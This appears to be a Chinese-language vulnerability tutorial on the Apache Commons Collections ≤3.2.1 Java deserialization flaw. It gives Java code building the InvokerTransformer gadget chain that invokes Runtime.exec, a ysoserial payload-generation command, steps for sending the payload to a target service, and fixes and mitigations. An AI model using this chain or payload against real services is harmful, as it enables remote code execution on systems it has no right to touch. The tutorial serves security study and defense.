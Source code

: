 
## 目录
1. [漏洞概述](#漏洞概述)
2. [环境复现](#环境复现)
3. [核心概念与关键类](#核心概念与关键类)
4. [漏洞原理与利用链](#漏洞原理与利用链)
5. [漏洞复现步骤](#漏洞复现步骤)
6. [修复方案](#修复方案)
7. [法律声明](#法律声明)

---

## 漏洞概述

### 基本信息
- **漏洞编号**：无独立CVE编号，但影响广泛（如WebLogic、WebSphere等）  
- **发现时间**：2015年1月28日（Gabriel Lawrence和Chris Frohoff）  
- **影响版本**：Apache Commons Collections ≤ 3.2.1  
- **利用工具**：[ysoserial](https://github.com/frohoff/ysoserial)  

### 漏洞背景
- **核心问题**：利用`InvokerTransformer`类的反射机制，构造恶意序列化数据，触发任意代码执行。  
- **关键类**：  
  - `InvokerTransformer`、`ChainedTransformer`、`TransformedMap`、`AnnotationInvocationHandler`  

---

## 环境复现

### 环境要求
- **JDK版本**：1.7.0_80（需与漏洞兼容）  
- **开发工具**：IDEA（需配置Java 7编译环境）  
- **依赖库**：Apache Commons Collections ≤ 3.2.1  

### Maven依赖配置
```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

---

## 核心概念与关键类

### Apache Commons Collections 扩展功能
- **集合增强**：提供`Bag`、`BidiMap`、`TransformedMap`等高级数据结构。  
- **Transformer接口**：支持对集合元素进行动态转换。  

### 关键类解析
| **类名**             | **作用**                                                                 |
|----------------------|-------------------------------------------------------------------------|
| `InvokerTransformer` | 通过反射调用任意方法（如`Runtime.exec()`）                               |
| `ChainedTransformer` | 链式调用多个`Transformer`，依次执行转换操作                               |
| `TransformedMap`     | 对Map的修改操作（如`put`、`setValue`）触发`Transformer`的`transform()`方法 |
| `AnnotationInvocationHandler` | 反序列化时触发`TransformedMap`的`setValue()`方法                         |

---

## 漏洞原理与利用链

### 漏洞触发流程
```mermaid
graph LR
  A[构造恶意序列化数据] --> B[触发AnnotationInvocationHandler.readObject()]
  B --> C[调用TransformedMap.setValue()]
  C --> D[触发ChainedTransformer.transform()]
  D --> E[执行InvokerTransformer反射调用Runtime.exec()]
```

### 关键代码逻辑
8. **构造`InvokerTransformer`链**：  
   ```java
   Transformer[] transformers = new Transformer[]{
       new ConstantTransformer(Runtime.class),
       new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
       new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
       new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
   };
   ChainedTransformer chain = new ChainedTransformer(transformers);
   ```

9. **绑定到`TransformedMap`**：  
   ```java
   Map innerMap = new HashMap();
   Map transformedMap = TransformedMap.decorate(innerMap, null, chain);
   ```

10. **触发反序列化**：  
   ```java
   Constructor handlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler")
       .getDeclaredConstructor(Class.class, Map.class);
   handlerConstructor.setAccessible(true);
   Object handler = handlerConstructor.newInstance(Target.class, transformedMap);
   ```

---

## 漏洞复现步骤

### 步骤概览
11. **生成Payload**：使用`ysoserial`生成恶意序列化数据。  
   ```bash
   java -jar ysoserial.jar CommonsCollections1 "calc.exe" > payload.bin
   ```

12. **发送Payload**：通过HTTP请求或其他方式将`payload.bin`发送至目标服务。  

13. **触发漏洞**：目标服务反序列化时执行`calc.exe`（或其他命令）。  

---

## 修复方案

### 官方修复
14. **升级依赖库**：  
   - Apache Commons Collections ≥ 3.2.2（修复了危险`Transformer`类）。  
15. **代码层防护**：  
   ```java
   // 禁用危险类的反序列化
   System.setProperty("org.apache.commons.collections.enableUnsafeSerialization", "false");
   ```

### 临时缓解
- **JVM参数限制**：  
  ```bash
  -Djdk.serialFilter=!org.apache.commons.collections.functors.InvokerTransformer
  ```

---

## 法律声明
> **《中华人民共和国网络安全法》第二十七条**  
> 任何个人和组织不得从事非法侵入他人网络、干扰他人网络正常功能、窃取网络数据等危害网络安全的活动；不得提供专门用于从事侵入网络、干扰网络正常功能及防护措施、窃取网络数据等危害网络安全活动的程序、工具；明知他人从事危害网络安全的活动的，不得为其提供技术支持、广告推广、支付结算等帮助。  
> **本文档内容仅用于安全研究与防御技术学习，严禁用于非法用途！**
```